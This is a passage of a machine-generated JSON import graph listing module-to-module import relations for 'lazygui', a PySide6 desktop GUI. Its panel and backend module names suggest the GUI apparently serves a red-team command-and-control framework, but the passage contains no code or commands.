"EXTRACTED", "relation": "imports", "source": "lazygui/config/settings.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/config/settings.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/config/settings.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/config/settings.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/config/settings.py", "target": "lazygui.config.constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/config/settings.py", "target": "lazygui.config.paths"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/__init__.py", "target": "lazygui.panels.base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/__init__.py", "target": "lazygui.panels.campaign_panel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/__init__.py", "target": "lazygui.panels.credentials_panel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/__init__.py", "target": "lazygui.panels.cve_panel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/__init__.py", "target": "lazygui.panels.event_log_panel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/__init__.py", "target": "lazygui.panels.graph_panel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/__init__.py", "target": "lazygui.panels.history_panel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/__init__.py", "target": "lazygui.panels.killchain_panel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/__init__.py", "target": "lazygui.panels.listeners_panel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/__init__.py", "target": "lazygui.panels.marketplace_panel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/__init__.py", "target": "lazygui.panels.registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/__init__.py", "target": "lazygui.panels.sessions_panel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/__init__.py", "target": "lazygui.panels.terminal_panel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/base.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/base.py", "target": "PySide6.QtCore"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/base.py", "target": "PySide6.QtWidgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/base.py", "target": "lazygui.config.constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/base.py", "target": "lazygui.services.backend"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/campaign_panel.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/campaign_panel.py", "target": "PySide6.QtCore"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/campaign_panel.py", "target": "PySide6.QtWidgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/campaign_panel.py", "target": "lazygui.config.constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/campaign_panel.py", "target": "lazygui.panels.base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/campaign_panel.py", "target": "lazygui.services.backend"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/campaign_panel.py", "target": "lazygui.services.models"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/credentials_panel.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/credentials_panel.py", "target": "PySide6.QtCore"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/credentials_panel.py", "target": "PySide6.QtWidgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/credentials_panel.py", "target": "lazygui.config.constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/credentials_panel.py", "target": "lazygui.panels.base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/credentials_panel.py", "target": "lazygui.services.backend"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/cve_panel.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/cve_panel.py", "target": "PySide6.QtCore"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/cve_panel.py", "target": "PySide6.QtWidgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/cve_panel.py", "target": "lazygui.config.constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/cve_panel.py", "target": "lazygui.panels.base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/cve_panel.py", "target": "lazygui.services.backend"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/cve_panel.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/cve_panel.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/cve_panel.py", "target": "pandas"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/event_log_panel.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/event_log_panel.py", "target": "PySide6.QtCore"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/event_log_panel.py", "target": "PySide6.QtWidgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/event_log_panel.py", "target": "lazygui.config.constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/event_log_panel.py", "target": "lazygui.panels.base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/event_log_panel.py", "target": "lazygui.services.backend"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/event_log_panel.py", "target": "lazygui.services.event_log"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/event_log_panel.py", "target": "lazygui.services.models"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/event_log_panel.py", "target": "lazygui.widgets.event_log_view"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/graph_panel.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/graph_panel.py", "target": "PySide6.QtCore"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/graph_panel.py", "target": "PySide6.QtWidgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/graph_panel.py", "target": "lazygui.config.constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/graph_panel.py", "target": "lazygui.panels.base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/graph_panel.py", "target": "lazygui.services.backend"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/graph_panel.py", "target": "lazygui.services.models"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/graph_panel.py", "target": "lazygui.widgets.graph_view"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/history_panel.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/history_panel.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/history_panel.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/history_panel.py", "target": "PySide6.QtCore"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/history_panel.py", "target": "PySide6.QtWidgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/history_panel.py", "target": "lazygui.config.constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/history_panel.py", "target": "lazygui.panels.base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/history_panel.py", "target": "lazygui.services.backend"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/killchain_panel.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/killchain_panel.py", "target": "PySide6.QtCore"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/killchain_panel.py", "target": "PySide6.QtWidgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/killchain_panel.py", "target": "lazygui.config.constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/killchain_panel.py", "target": "lazygui.panels.base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/killchain_panel.py", "target": "lazygui.services.backend"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/killchain_panel.py", "target": "modules.killchain"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/listeners_panel.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/listeners_panel.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/listeners_panel.py", "target": "PySide6.QtCore"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/listeners_panel.py", "target": "PySide6.QtWidgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/listeners_panel.py", "target": "lazygui.config.constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/listeners_panel.py", "target": "lazygui.panels.base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/listeners_panel.py", "target": "lazygui.services.backend"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/listeners_panel.py", "target": "lazygui.services.models"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/listeners_panel.py", "target": "lazygui.widgets.filter_bar"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/marketplace_panel.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/marketplace_panel.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/marketplace_panel.py", "target": "PySide6.QtCore"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/marketplace_panel.py", "target": "PySide6.QtWidgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/marketplace_panel.py", "target": "lazygui.config.constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/marketplace_panel.py", "target": "lazygui.panels.base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/marketplace_panel.py", "target": "lazygui.services.backend"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/marketplace_panel.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/marketplace_panel.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/marketplace_panel.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/marketplace_panel.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/marketplace_panel.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/marketplace_panel.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/registry.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/registry.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/registry.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/registry.py", "target": "PySide6.QtWidgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/registry.py", "target": "lazygui.config.constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/registry.py", "target": "lazygui.panels.base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/registry.py", "target": "lazygui.panels.campaign_panel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/registry.py", "target": "lazygui.panels.credentials_panel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/registry.py", "target": "lazygui.panels.cve_panel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/registry.py", "target": "lazygui.panels.event_log_panel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/registry.py", "target": "lazygui.panels.graph_panel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/registry.py", "target": "lazygui.panels.history_panel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/registry.py", "target": "lazygui.panels.killchain_panel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/registry.py", "target": "lazygui.panels.listeners_panel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/registry.py", "target": "lazygui.panels.marketplace_panel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/registry.py", "target": "lazygui.panels.sessions_panel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/registry.py", "target": "lazygui.panels.terminal_panel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/registry.py", "target": "lazygui.services.backend"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/registry.py", "target": "lazygui.services.event_log"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/sessions_panel.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/sessions_panel.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/sessions_panel.py", "target": "PySide6.QtCore"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/sessions_panel.py", "target": "PySide6.QtWidgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/sessions_panel.py", "target": "lazygui.config.constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/sessions_panel.py", "target": "lazygui.panels.base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/sessions_panel.py", "target": "lazygui.services.backend"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/sessions_panel.py", "target": "lazygui.services.models"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/sessions_panel.py", "target": "lazygui.widgets.filter_bar"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/terminal_panel.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/terminal_panel.py", "target": "PySide6.QtCore"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/terminal_panel.py", "target": "PySide6.QtWidgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/terminal_panel.py", "target": "lazygui.config.constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/terminal_panel.py", "target": "lazygui.panels.base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/terminal_panel.py", "target": "lazygui.services.backend"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/panels/terminal_panel.py", "target": "lazygui.widgets.terminal_view"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/__init__.py", "target": "lazygui.services.backend"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/__init__.py", "target": "lazygui.services.event_log"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/__init__.py", "target": "lazygui.services.factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/__init__.py", "target": "lazygui.services.local_backend"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/__init__.py", "target": "lazygui.services.models"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/__init__.py", "target": "lazygui.services.teamserver_backend"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/backend.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/backend.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/backend.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/backend.py", "target": "enum"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/backend.py", "target": "PySide6.QtCore"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/backend.py", "target": "lazygui.services.models"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/backend.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/backend.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/backend.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/event_log.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/event_log.py", "target": "collections"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/event_log.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/event_log.py", "target": "PySide6.QtCore"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/event_log.py", "target": "lazygui.config.constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/event_log.py", "target": "lazygui.services.models"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/factory.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/factory.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/factory.py", "target": "PySide6.QtCore"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/factory.py", "target": "lazygui.config.constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/factory.py", "target": "lazygui.config.paths"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/factory.py", "target": "lazygui.services.backend"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/factory.py", "target": "lazygui.services.local_backend"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/factory.py", "target": "lazygui.services.models"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/factory.py", "target": "lazygui.services.teamserver_backend"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/local_backend.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/local_backend.py", "target": "errno"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/local_backend.py", "target": "fcntl"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/local_backend.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/local_backend.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/local_backend.py", "target": "pty"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/local_backend.py", "target": "signal"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/local_backend.py", "target": "struct"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/local_backend.py", "target": "termios"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/local_backend.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/local_backend.py", "target": "PySide6.QtCore"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/local_backend.py", "target": "lazygui.config.constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/local_backend.py", "target": "lazygui.config.paths"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/local_backend.py", "target": "lazygui.services.backend"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/local_backend.py", "target": "lazygui.services.models"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/models.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/models.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/models.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/models.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/models.py", "target": "enum"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/models.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/teamserver_backend.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/teamserver_backend.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/teamserver_backend.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/teamserver_backend.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/teamserver_backend.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/teamserver_backend.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/teamserver_backend.py", "target": "PySide6.QtCore"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/teamserver_backend.py", "target": "lazygui.config.constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/teamserver_backend.py", "target": "lazygui.services.backend"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/teamserver_backend.py", "target": "lazygui.services.models"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/teamserver_backend.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/teamserver_backend.py", "target": "requests.auth"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/teamserver_backend.py", "target": "socketio"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/services/teamserver_backend.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/theme/__init__.py", "target": "lazygui.theme.manager"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/theme/__init__.py", "target": "lazygui.theme.qss_builder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/theme/__init__.py", "target": "lazygui.theme.tokens"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/theme/manager.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/theme/manager.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/theme/manager.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/theme/manager.py", "target": "PySide6.QtCore"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/theme/manager.py", "target": "PySide6.QtGui"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/theme/manager.py", "target": "PySide6.QtWidgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/theme/manager.py", "target": "lazygui.config.constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/theme/manager.py", "target": "lazygui.config.settings"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/theme/manager.py", "target": "lazygui.theme.palettes"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/theme/manager.py", "target": "lazygui.theme.qss_builder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/theme/manager.py", "target": "lazygui.theme.tokens"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/theme/palettes/__init__.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/theme/palettes/__init__.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/theme/palettes/__init__.py", "target": "lazygui.theme.palettes"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/theme/palettes/__init__.py", "target": "lazygui.theme.tokens"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/theme/palettes/catppuccin_mocha.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/theme/palettes/catppuccin_mocha.py", "target": "lazygui.theme.tokens"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/theme/palettes/cobalt_clone.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/theme/palettes/cobalt_clone.py", "target": "lazygui.theme.tokens"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/theme/palettes/gruvbox_dark.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/theme/palettes/gruvbox_dark.py", "target": "lazygui.theme.tokens"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/theme/palettes/solarized_light.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/theme/palettes/solarized_light.py", "target": "lazygui.theme.tokens"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/theme/palettes/tactical_green.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/theme/palettes/tactical_green.py", "target": "lazygui.theme.tokens"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/theme/palettes/tokyo_night.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/theme/palettes/tokyo_night.py", "target": "lazygui.theme.tokens"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/theme/qss_builder.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/theme/qss_builder.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/theme/qss_builder.py", "target": "lazygui.config.constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/theme/qss_builder.py", "target": "lazygui.theme.tokens"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/theme/tokens.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/theme/tokens.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/__init__.py", "target": "lazygui.widgets.command_palette_list"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/__init__.py", "target": "lazygui.widgets.event_log_view"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/__init__.py", "target": "lazygui.widgets.filter_bar"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/__init__.py", "target": "lazygui.widgets.graph_view"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/__init__.py", "target": "lazygui.widgets.status_badge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/__init__.py", "target": "lazygui.widgets.terminal_view"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/beacon_command_modal.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/beacon_command_modal.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/beacon_command_modal.py", "target": "PySide6.QtCore"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/beacon_command_modal.py", "target": "PySide6.QtGui"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/beacon_command_modal.py", "target": "PySide6.QtWidgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/beacon_command_modal.py", "target": "lazygui.services.backend"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/beacon_command_modal.py", "target": "lazygui.services.models"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/command_palette_list.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/command_palette_list.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/command_palette_list.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/command_palette_list.py", "target": "PySide6.QtCore"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/command_palette_list.py", "target": "PySide6.QtGui"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/command_palette_list.py", "target": "PySide6.QtWidgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/command_palette_list.py", "target": "lazygui.config.constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/event_log_view.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/event_log_view.py", "target": "PySide6.QtCore"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/event_log_view.py", "target": "PySide6.QtGui"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/event_log_view.py", "target": "PySide6.QtWidgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazygui/widgets/event_log_view.py", "target": "lazygui.config.constants"}, {"confidence": "EXTRACTED", "relation": "imports", "source": 